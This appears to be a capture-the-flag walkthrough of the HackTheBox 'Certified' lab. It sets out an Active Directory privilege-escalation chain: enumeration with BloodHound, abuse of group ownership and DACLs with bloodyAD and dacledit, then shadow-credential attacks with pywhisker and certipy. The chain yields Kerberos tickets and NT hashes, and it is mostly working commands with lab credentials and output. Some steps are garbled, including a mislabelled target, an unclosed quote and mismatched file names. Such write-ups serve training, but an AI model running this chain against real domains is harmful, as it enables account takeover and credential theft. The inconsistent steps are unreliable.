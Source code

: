 
initaial access with given user: 

```
judith.mader:judith09
```

## Run Bloodhound

```
bloodhound.py -u 'judith.mader' -p 'judith09' -d 'certified.htb' -dc dc01.certified.htb -ns 10.129.73.100 -c all
```

Import data to bloodhound

Judith has writeonwer rights on group "Management"
there for we can add judith as the owner of this group. 

this can be done with bloodyAD

```
bloodyAD --host 10.129.73.100 -d "certified.htb" -u "judith.mader" -p "judith09" set owner Management judith.mader
```

now we are owner of the group. we can add judith into to groub give her full control rights and then change the password for "management_svc"

```
KRB5CCNAME=judith.mader.ccache dacledit.py -k -no-pass -dc-ip 10.129.73.100 -principal judith.mader -target Management -action write -rights FullControl certified.htb/judith.mader
```

### add judith to Managment group

```
bloodyAD --host 10.129.73.100 -d "certified.htb" -u "judith.mader" -p "judith09" add groupMember Management judith.mader
```

with the following command we can change the password for management_svc

this is done via pywhisker

```
pywhisker -d "certified.htb" -u "judith.mader" -p "judith09" -t "management_svc" -a "add"
```

now we have changed the password for management_svc

```
❯ pywhisker -d "certified.htb" -u "judith.mader" -p "judith09" -t "management_svc" -a "add"
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: b2011c96-19a7-3ad3-f5ce-062635b7e708
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: y8DqIstn.pfx
[*] Must be used with password: JHMLsBj7SBhwkWOKu5QV
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITto
```

### change password for CA_OPERATOR

Management_svc user has GenericAll rights on CA_Operator. Therefore we can now change this password aswell. 

```
pywhisker -d "certified.htb" -u "management_svc" -p "JHMLsBj7SBhwkWOKu5QV" -t "management_svc" -a "add
```



```
❯ certipy auth -pfx mmgt_svc.pfx -username 'management_svc'  -domain 'certified.htb' -dc-ip 10.129.73.100
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: management_svc@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'management_svc.ccache'
[*] Trying to retrieve NT hash for 'management_svc'
[*] Got hash for 'management_svc@certified.htb': aad3b435b51404eeaad3b435b51404ee:a091c1832bcdd4677c28b5a6a1295584
```

```
❯ pywhisker -d "certified.htb" -u "management_svc" -H aad3b435b51404eeaad3b435b51404ee:a091c1832bcdd4677c28b5a6a1295584 -t "ca_operator" -a "add"
[*] Searching for the target account
[*] Target user found: CN=operator ca,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 9cd85d26-5c52-6c63-c535-9e1aa08a5776
[*] Updating the msDS-KeyCredentialLink attribute of ca_operator
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: afELVt27.pfx
[*] Must be used with password: iRaGdqS68YfoH8XhEcTj
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

### CA_operator

```
❯ certipy auth -pfx ca_operator.pfx -username 'ca_operator'  -domain 'certified.htb' -dc-ip 10.129.73.100
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: ca_operator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_operator.ccache'
[*] Trying to retrieve NT hash for 'ca_operator'
[*] Got hash for 'ca_operator@certified.htb': aad3b435b51404eeaad3b435b51404ee:b4b86f45c6018f1b664f70805f45d8f2
```

